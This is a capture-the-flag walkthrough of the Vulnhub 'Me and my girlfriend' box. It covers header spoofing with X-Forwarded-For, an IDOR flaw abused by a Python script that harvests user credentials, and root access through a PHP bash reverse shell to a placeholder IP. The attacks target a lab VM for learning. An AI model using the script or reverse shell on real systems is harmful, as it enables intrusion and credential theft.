


# Vulnhub : Me and my girlfriend
***
This is one of the first boxes I solved while learning cyber security. This is my version of how I solved the box. Enjoy 
<br><br>
## Recon
***
First we need to find the device on the network.
```bash
nmap 192.168.56.*
```


From the result we can see that our vulnhub box has ip 192.168.56.126. Lets scan the device using nmap again

```bash
nmap 192.168.56.126 -sC -sV -oN nmap
```


Only SSH and a HTTP is available for the time being. Lets see the webpage.


It has a message. Looks like the webserver accepts request from localhost. Lets see the source code to see if its a framework or just some typed code


Well, there is a comment : <br> ``` Maybe you can search how to use x-forwarded-for```

For all who didn't get it. You see, when we make a web request additonal details are sent with the request; like type of request, data inside the requests, origin etc... Such details are stored in the headers. Now, there are standard headers as well as custom headers. <br>
**X-Forwarded-For** is one such custom header, which specifies the **origin of the request**. There are several similar headers, I'll leave that to you to explore <br>

Let us use burp to test our theory. First i'll capture the request and then I'll modify it.


I'll forward the request to Repeater tab and lets add our X-Forwarded-For header


Well, you can see we get a 302 redirect. Lets render the page inside burp and get what is inside.

The page looks legit. For our convinience lets do a small workaround. Instead of adding the header manually to each request, lets tell burp to add them and we'll view the result in the browser.
<br>
In burp, ***Options*** ==> ***Match and Replace*** ==> ***Add**<br>


Don't match for anything, just add X-Forwarded-For header to request. Click okay and make sure that a blue checkmark is enabled. Now disable intercept and view the webpage in browser.

Looks like it has some register functionality. Lets add a new user and see the working inside. I'll make my account as legit as possible.

After registering we get a profile section. Lets visit that.

Did you notice something ? 
1. URL has an ***user_id** parameter
2. Profile page shows our password in a form
<br>

This might be our entry point. First of all if there is a user_id that the web server is using to display data, maybe we can change and look at other user's data.<br>
Second of all, note that the password is masked, but it will be visible if you inspect the webpage

<br><br>

As it turns out we can see others users data.
Lets write a simple python script to gather data of exiting users.

<br>
Here's the code : [get_creds.py](https://gist.github.com/ajaysram/80a19ec3f91ce761e62c0b56b11d037e)

```python
import requests
import re


headers = {"X-Forwarded-For":"localhost"}

requests.get("http://192.168.56.125/?page=login",headers=headers)
data = {"username":"dbadmin","password":"1234"}

with requests.Session() as s:
    a = s.post("http://192.168.56.126/misc/process.php?act=login",data=data,headers=headers)

    base_url = "http://192.168.56.126/?page=profile&user_id="
    print("USER",21*' ',"USERNAME",17*' ',"PASSWORD")
    for i in range(0,100):
        user_url = base_url + str(i)
        d = s.post(user_url,headers=headers)
        data = re.findall('value=.*\"',d.text)

        cleaned = []
        for d in data:
            cleaned.append(d.replace('value="',"").replace('"',""))

        names     = cleaned[0]
        usernames = cleaned[1]
        password  = cleaned[2]
        if len(names) != 0:
            print(names,(25-len(names))*' ',usernames,(25 - len(usernames))*' ',password)
```


**tee** command here, works similar to the letter **T**. It takes output of a result and splits then into two; first to standard out and other to a file.

<br><br>
## Getting user
***
Let's SSH into the box as alice with the password we gathered.

And it works ! That's why we say not to use same password for all stuffs !!!
Lets list all directories and see the contents inside.

There is your first flag and a note. Do read them.<br>

## Getting root
***
Lets move on. Now, lets see if we can get root (admin) privileges. Do a sudo listing and see the commands **root** can run.

<br>
Whoa !!! root can run php without password. Now you know what to do next.<br>
Lets create a php reverse shell and get a connection callback.<br>


```php
<?php 
    exec(""/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/9000 0>&1');
?>
```

Lets run the reverse shell as root. Since root can run php without password, we get a connection with root priviledges.


And there you have it, you have full control over the box.<br>
***
The box is pretty simple to solve and focuses on small parts of cybersecurity. You get to learn new stuff and you code some cool scripts. Do follow for more writeups.<br>
Till then, keep learning
